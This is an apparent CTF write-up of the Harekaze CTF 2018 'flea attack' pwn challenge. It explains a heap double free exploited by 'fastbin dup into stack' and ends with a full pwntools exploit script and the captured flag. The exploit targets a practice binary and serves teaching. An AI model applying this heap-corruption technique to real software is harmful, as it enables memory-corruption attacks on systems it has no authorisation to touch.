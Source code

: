 ```yaml
---
layout: post
title: "flea attack"
---
```

# flea attack - harekaze ctf 2018 

nc problem.harekaze.com 20175

file: [flea_attack](https://problem.harekaze.com/3bac5c3a7bbcd9b58013de928a4e7ee5b7b6b4c59b0bb8ebbb5def90a7364f8b/flea_attack/flea_attack.elf)

(Pwn, 200 points)

i was unable to finish this problem during the ctf but got pretty close. i read a solution afterwards and ensured that i understood what i did wrong. here's my notes!

i started by checking the binary mitigations in place:

```
[*] '/home/vagrant/harekaze/flea-attack/flea_attack.elf'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x200000)
```

after running the binary i could tell this was likely a heap related memory corruption vulnerability since it was using malloc to store our name:

```
puts("1. Add name"1. Add name
)                                                                                                   = 12
puts("2. Delete name"2. Delete name
)                                                                                                = 15
puts("3. Exit"3. Exit
)                                                                                                       = 8
printf("> "> )                                                                                                          = 2
fgets(1
"1\n", 11, 0x7f46a20828e0)                                                                                      = 0x7ffe9ed3de1c
atoi(0x7ffe9ed3de1c, 0x7f46a2082963, 0x7f46a2084790, 0x7f46a1db5230)                                                  = 1
printf("Size: "Size: )                                                                                                      = 6
fgets(16
"16\n", 11, 0x7f46a20828e0)                                                                                     = 0x7ffe9ed3dddc
atoi(0x7ffe9ed3dddc, 0x7f46a2082963, 0x7f46a2084790, 0x7f46a1db5230)                                                  = 16
malloc(16)                                                                                                            = 0x900250
printf("Name: "Name: )                                                                                                      = 6
read(0fizbaz
, "fizbaz\n", 16)
```

likely a use after free of some kind since we can also free our name with the delete functionality. i could also tell that the address of our flag in memory is given to us:

```
\__libc_start_main(0x201430, 1, 0x7fff61b66a48, 0x201560 <unfinished ...>
setvbuf(0x7fcc663d08e0, 0, 2, 0)                                                    = 0
setvbuf(0x7fcc663d1620, 0, 2, 0)                                                    = 0
setvbuf(0x7fcc663d1540, 0, 2, 0)                                                    = 0
fopen("/home/flea_attack/flag", "r")                                                = 0xe6d010
fgets("flag{flea-attack}\n", 48, 0xe6d010)                                          = 0x204080
printf("Some comment this note:"Some comment this note:)                                                   = 23
read(0^C <no return ...>
--- SIGINT (Interrupt) ---
+++ killed by SIGINT +++
```

since there was no obvious way to redirect execution simply with the name allocations i decided to look into other options, i've been playing with the examples in team shellphish's [how2heap](https://github.com/shellphish/how2heap) repository lately and found [one](https://github.com/shellphish/how2heap/blob/master/fastbin_dup_into_stack.c) that was directly applicable to this challenge; 'fastbin dup into stack' which allows one to trick malloc into returning a chunk of memory in segments other than the heap.

i was able to get this working in the flea\_attack challenge by adding 3 names of the same size (call them a, b, and c) delete name a, followed by b, followed by a again, add name a again with the same size and the name <address of flag - some offset>, add name d, e of the same size and finally name f of the same size but this time with enough characters to fill our offset from <address of flag>. the only caveat is i needed to provide the fake chunk size in the debugger. i couldn't figure out how to do this with the pwn script. my idea was that i could provide the fake size with the initial prompt which asks the user for a comment. this much i was right about however i couldn't figure out how to provide a fake chunk size that malloc trusted. i kept getting errors like ```*** Error in './flea_attack.elf': malloc(): memory corruption (fast): 0x000000000184e240```. in gdb when using a fake size of 0x20 and a chunk size of 16 i was able to get the flag. the part i couldn't figure out in time was how to bypass the appending of the newline character in our comment which i was using to write our fake chunk size.looking back it was such a silly thing to get stuck on!! here's the code responsible for this functionality decompiled in hexrays:

```C
unsigned int original_fgets(char *buf, unsigned int sz) {
    char *result;
    unsigned int i;
    for (i = 0; ++i) {
        result = i;
        if (i >= sz - 1) break;
        read(0, buf+i; 1);
        if ( !( *(buf+i) ) ) {
            *(buf + i) = '\n';
LABEL_7:
            result = buf;
            *(buf + 1 + i) = 0;
            return result;
        }
        if ( *(buf + i) == '\n' ) {
            goto LABEL_7;
        }
    }
}
```

it looks like we had an 'fgets' written just for us! looking at this now all we had to do was figure out that if we wrote our own newline in our input and set up the chunk so that the fake size lands right at the end of our input.

here's my final solution:

```python
#!/usr/bin/python

from pwn import *

host = 'problem.harekaze.com'
port = 20175

REMOTE = True
#REMOTE = False
DEBUG = False
#DEBUG = True

def getpipe():
    if REMOTE:
        return remote(host,port)
    return process('./flea_attack.elf')

def add_name(name, sz):
    global r
    r.recvuntil('> ')
    r.sendline('1')
    r.recvuntil('ze: ')
    r.sendline('{}'.format(sz))
    r.recvuntil('me: ')
    r.sendline('{}'.format(name))
    r.recvuntil('ddr: ')
    return r.recvline()

def flag_name(name, sz):
    global r
    r.recvuntil('> ')
    r.sendline('1')
    r.recvuntil('ze: ')
    r.sendline('{}'.format(sz))
    r.recvuntil('me: ')
    r.sendline('{}'.format(name))
    log.success(r.recvuntil('ddr: '))
    return r.recvline()

def delete_name(addr):
    global r
    r.recvuntil('> ')
    r.sendline('2')
    r.recvuntil('ddr: ')
    r.sendline('{}'.format(addr))

gdbscript = '''
b original_fgets
'''

r = getpipe()

if DEBUG:
    gdb.attach(r, gdbscript)

r.recvuntil('note:')

r.sendline('a' * 94 + p8(0x71))

sz = 96

a = add_name('aaaaaaa', sz)
b = add_name('bbbbbbb', sz)
c = add_name('ccccccc', sz)

delete_name(a)
delete_name(b)
delete_name(a)

flag = 0x204056

log.info('flag is at: {}'.format(hex(flag)))

a = add_name(p64(flag), sz)

add_name('AAAA', sz)
add_name('BBBB', sz)

flag_name('A'*25, sz)
'''
[+] Opening connection to problem.harekaze.com on port 20175: Done
[*] flag is at: 0x204056
[+] Done!
    Name: AAAAAAAAAAAAAAAAAAAAAAAAA
    HarekazeCTF{5m41l_smal1_f1ea_c0n7rol_7h3_w0rld}
    Addr: 
[*] Closed connection to problem.harekaze.com port 20175
'''
```
